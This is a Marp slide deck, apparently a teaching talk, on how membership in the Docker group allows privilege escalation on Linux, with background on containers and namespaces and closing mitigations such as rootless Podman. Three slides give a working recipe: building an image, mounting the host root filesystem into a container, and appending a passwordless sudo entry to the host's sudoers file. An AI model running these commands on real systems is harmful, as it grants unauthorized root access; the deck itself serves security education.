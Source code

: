 ```yaml
---
marp: true
theme: default
paginate: true
footer: "Using Docker for Privilige Escalation (C) 2023, Ray Steen"
---
```

<style>section  { justify-content: start; }</style>
<style scoped>section  { justify-content: center; }</style>

<!-- class: invert -->

# Using Docker for Privilige Escalation
![bg width:300px right](assets/vertical-logo-monochromatic.webp)
Inspired by John Hammond's [Docker - PRIVILEGE ESCALATION Technique](https://www.youtube.com/watch?v=MnUtHSpcdLQ)

---
# What is Docker?
> Docker is a set of platform as a service (PaaS) products that use OS-level virtualization to deliver software in packages called **containers**.
- Essentially, Docker is a tool that allows you to build, deploy, and manage **containers**.
- By default, Docker manages **containers** as **root**.
![bg width:300px right:30%](assets/vertical-logo-monochromatic.webp)
---
# What is a Container?
> A container is a standard unit of software that packages up code and all its dependencies so the application runs quickly and reliably from one computing environment to another.
- Containers are lightweight, portable, and **isolated**.
![bg width:300px right:30%](assets/container.png)
---
# How does it work?
![bg width:300px right:30%](assets/docker-architecture.png)

> Docker makes use of kernel **_namespaces_** to provide the isolated workspace called the container. When you run a container, Docker creates a set of **_namespaces_** for that container. These **_namespaces_** provide a layer of isolation. Each aspect of a container runs in a separate namespace and its access is limited to that namespace.
---
# Namespaces
Docker Engine uses the following namespaces on Linux:

- `PID` namespace for process isolation.
- `NET` namespace for managing network interfaces.
- `IPC` namespace for managing access to IPC resources.
- **`MNT`** namespace for managing filesystem mount points.
- `UTS` namespace for isolating kernel and version identifiers and hostnames.
- **`USER`** namespace for user and group identity.
- `CGROUP` namespace for managing cgroup hierarchies.

---
# Setup: Software
- [Docker Engine](https://docs.docker.com/get-docker/)
---
# Setup: Users and Groups
## Users
- `root` - root user
- `user` - unprivileged user in the `docker` group
## Groups
- `docker` - group for users to run docker commands

---
<style scoped>section  { justify-content: center; }</style>

# Creating the container image
```dockerfile
FROM ubuntu

WORKDIR /exploit
```

Run the following command to build the image:
```bash
docker build -t exploit .
```
---
<style scoped>section  { justify-content: center; }</style>

# Running the container
```bash
docker run --rm -it -v /:/exploit exploit
```
---
<style scoped>section  { justify-content: center; }</style>
# Escalating Privileges
```bash
echo "user ALL=(ALL) NOPASSWD: ALL" >> etc/sudoers
```

---
<style scoped>section  { justify-content: center; }</style>
# What can we do to prevent this?
- Don't add users to the `docker` group.
- Don't run containers as root.

---
# What is Podman?
> Podman is a **daemonless** container engine for developing, managing, and running OCI Containers on your Linux System. Containers can either be run as root or in **rootless** mode.
- Podman is a **drop-in replacement** for Docker.
- Can be used to run containers as a **non-root** user.
![bg width:300px right:30%](assets/podman-vertical.png)

---
# Resources

- [Get Started with Docker](https://www.docker.com/get-started)
- [Getting Started with Podman](https://podman.io/getting-started/)
- [Get Docker](https://docs.docker.com/get-docker/)
- [Docker playground](https://labs.play-with-docker.com/)
- [Use the Docker command line](https://docs.docker.com/engine/reference/commandline/cli/)

## Container Images used
- [ubuntu](https://hub.docker.com/_/ubuntu)